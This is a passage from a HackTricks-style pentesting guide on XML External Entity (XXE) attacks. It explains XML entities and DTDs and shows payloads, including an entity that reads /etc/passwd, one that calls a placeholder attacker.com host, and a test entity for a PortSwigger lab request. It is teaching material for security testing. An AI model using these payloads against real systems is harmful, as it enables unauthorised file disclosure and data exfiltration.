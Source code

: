 # XXE - XEE - XML External Entity

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>


## XML Basics

XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.

- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.

- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.

- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.

- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`

- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`


## Main attacks

**[Most of these attacks were tested using the awesome Portswiggers XEE labs: https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)**

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
<productId>&toreplace;</productId>
<storeId>1</storeId>
</stockCheck>
```